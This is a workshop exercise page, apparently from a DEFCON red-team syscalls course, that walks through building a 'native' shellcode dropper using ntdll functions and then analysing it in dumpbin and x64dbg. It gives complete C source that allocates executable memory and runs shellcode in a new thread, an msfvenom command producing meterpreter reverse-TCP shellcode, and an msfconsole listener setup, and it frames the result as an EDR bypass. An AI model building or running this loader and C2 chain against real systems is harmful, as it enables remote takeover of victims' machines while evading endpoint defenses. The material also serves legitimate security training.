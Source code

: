 ## Exercise 3: Medium_Level_API-Native Dropper
In this exercise we will make the first modification to the Win32 dropper, replacing the Windows APIs (kernel32.dll) with native APIs (ntdll.dll). We will create a **medium-level API shellcode dropper** and call it a native dropper.
![medium_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235372969-4d24ddec-7ee5-443e-966a-24b3d70dc3a8.png)


## Exercice 3 tasks:
1. Download the native dropper POC from the Code section of this chapter.
2. The code in the POC is partially complete. Following the instructions in this playbook, you need to finish the part where the four native functions are loaded from ntdll.dll by using ``GetProcAddress``
3. Then create x64 meterpreter shellcode, copy it into the POC and compile it.  
4. Create and run a staged x64 meterpreter listener using msfconsole.
5. Run your compiled .exe and check that a stable command and control channel opens. 
6. Use the Visual Studio **dumpbin** tool to analyse the native dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected? 


## Visual Studio
You can download the POC from the code section of this chapter. In this POC, we replace the four Win32 APIs from the Win32 dropper with the corresponding native function or API.
- Memory allocation, ``VirtualAlloc`` is replaced by **``NtAllocateVirtualMemory``**.
- Write shellcode to memory, ``WriteProcessMemory`` is replaced by **``NtWriteVirtualMemory``**.
- Shellcode execution, ``CreateThread`` is replaced by **``NtCreateThreadEx``**.
- And ``WaitForSingleObject`` is replaced by **``NtWaitForSingleObject``**.

A few words about the functionality of the native dropper code. Unlike the Windows APIs, most native APIs are not officially or partially documented by Microsoft and are therefore not intended for Windows OS developers. In the case of the Win32 dropper from the previous chapter, we don't need to worry about manually implementing function structures, or how to handle transitions from Win32 APIs to native APIs, etc. This is because the Windows headers like ``Windows.h`` have already implemented all the functionality and provide us with the functionality by using the Win32 APIs. If we use the native APIs directly, without the help of the Win32 APIs, it is a bit more complicated and additional code has to be used in the native dropper. The reason for this is that the Windows headers or libraries do not support the direct use of native functions, so we have to implement the required code manually. Which means to be able to use native funtions in the native dropper we have to get the memory address of each native function from ntdll.dll at runtime. 

First we need to define the function pointers for all the native functions we need. For example, ``typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);`` creates a new type ``PNTALLOCATEVIRTUALMEMORY`` which is a function pointer of type ``NTSTATUS``. In general, a function pointer is a type of pointer that points to a function instead of a data value or an array. It holds the memory address of a function, and using this pointer, we can call the function. This part is already fully implemented in the Native Dropper POC.
<details>
    
 ```
// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
 ```
</details>
 
The second step is to get the memory address of each native function from ntdll.dll at runtime. So we use ``GetModuleHandleA`` to open a handle to ntdll.dll in memory. Then we pass the handle and the name e.g. ``NtAllocateVirtualMemory`` to ``GetProcAddress`` to get a pointer to the native function e.g. ``NtAllocateVirtualMemory`` in ntdll.dll. Next we cast this function pointer to the type ``PNTALLOCATEVIRTUALMEMORY`` and assign or store the resulting function pointer to the corresponding variable, e.g. ``NtAllocateVirtualMemory``. In simple words, ``NtAllocateVirtualMemory`` is declared as a function pointer of type ``PNTALLOCATEVIRTUALMEMORY`` and it holds the memory address of the ``NtAllocateVirtualMemory`` function as it is loaded into the current process from ntdll.dll. So when we call NtAllocateVirtualMemory in the native dropper code, we are actually calling the function from ntdll.dll at the memory address stored in the NtAllocateVirtualMemory function pointer. This **code part is not finished** and **must be completed by the workshop attendee**. In the native dropper POC you will see, that the code for the native function ``NtAllocateVirtualMemory`` is already written and based on that schema you have to complete it for the other three native functions ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.
<details>
    
```
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
// or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");    
```    
     
</details>    

<details>
    <summary>Solution</summary>
If it was at this time not possible for you to complete the code for the three missing native functions, you can use the following code and copy it into the Native Dropper POC. 

```
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
```        

</details>
    
Shellcode declaration same as before in the Win32 Dropper.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
     
Here is the **complete code**, but you can also find it already implemented in the code POC of this chapter.
<details>
    
```
#include <stdio.h>
#include <windows.h>

// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);

int main() {
    // This is placeholder shellcode. In a real use case, this would be replaced with actual shellcode
    // that you want to inject and execute. The shellcode is stored as an array of unsigned characters.
    unsigned char code[] = "\xfc\x48\x83";

    // Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");

    // Allocate a region of virtual memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode.
    // NtAllocateVirtualMemory is a function that reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process.
    // 'exec' will hold the base address of the allocated memory region.
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region.
    // NtWriteVirtualMemory is a function that writes into the virtual address space of a specified process.
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread.
    // NtCreateThreadEx is a function that creates a new thread for a process.
    // The new thread starts execution by calling the function at the start address specified in the lpStartAddress parameter. 
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the thread to finish executing.
    // NtWaitForSingleObject is a function that waits until the specified object is in the signaled state or the time-out interval elapses.
    NtWaitForSingleObject(hThread, FALSE, NULL);

    // Return 0 to indicate successful execution of the program.
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Medium-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Medium-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Medium-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Native Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports medium_level.exe
```
</details>    

<details>
    <summary>Solution</summary>    
Compared to the High-Level-Dropper, you can see that the medium-level dropper **no longer imports** the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="729" alt="image" src="https://user-images.githubusercontent.com/50073731/235374656-117e0468-cd4d-4832-afb7-599cf94d2f1b.png">
</p>
</details>    

     
     
## Native Dropper analysis: x64dbg
The first step is to run your native dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the native dropper directly in x64dbg you need to run the assembly first.
     
     
<details>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/be7fcea9-cac7-4aa6-8e59-d7170e63a1d5">     
</p>            
</details>    


First we want to check which APIs (Win32 or Native) or if the correct APIs are being imported and from which module or memory location. 
Remember that no direct syscalls are used in the Native dropper. What results do you expect?
     
<details>
    <summary>Solution</summary>
Checking the imported symbols in our Native dropper, we should see that the Win32 APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are no longer imported from kernel32.dll. So the result is the same as with dumpbin and seems to be valid.     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/95b9a92e-305c-4345-b40d-3241a7092161"> 
</p>  
     
In the case of the native dropper, we want to directly access the native functions in ntdll.dll. This is because the functions in ntdll.dll are not directly available through the standard Windows API headers and libraries. They have to be dynamically loaded at runtime.
If we analyse the disassembled code of the native dropper (Follow in dissassembler), we can identify the code where for each of the four native functions ``GetModuleHandleA'' is used to open the handle to ntdll.dll, pass the handle to ``GetProcAddress'', get the memory address of the native function e.g. NtAllocateVirtualMemory and store it into the respective function pointer.
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/6278205b-6e46-4bf9-a273-1aebc44d6afe">
</p>     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/34f24524-476b-4659-b190-3d6b252262d7">
</p>

Furthermore, if we use the symbols register in x64dbg, we can identify the manually declared function pointers that are needed to use the native functions without the help of Win32 APIs from kernel32.dll.
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/d0845cdf-90d7-4200-8823-27929b1ee3bb">
</p>
         
     
We also want to check from which module or memory location the syscall stub of the native functions used is implemented, and also check from which module or memory location the syscall statement and return statement are executed.
<details>
    <summary>Solution</summary>
     The following illustration shows, that the syscall instruction and the return instruction are executed from a memory region in ntdll.dll as expected.          
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/0701e142-1dd8-4a18-91f8-bf32d6b66315">          
</p>            
</details>     

     
     



## Summary: Medium-level API Dropper
- We made the transition from high-level APIs to medium-level APIs, or from Windows APIs to native APIs.
- But still no direct use of system calls
- Syscall execution via medium_level_dropper.exe -> ntdll.dll -> syscall
- Dropper no longer imports Windows APIs from kernel32.dll
- In case of EDR would only hook kernel32.dll -> EDR bypassed 
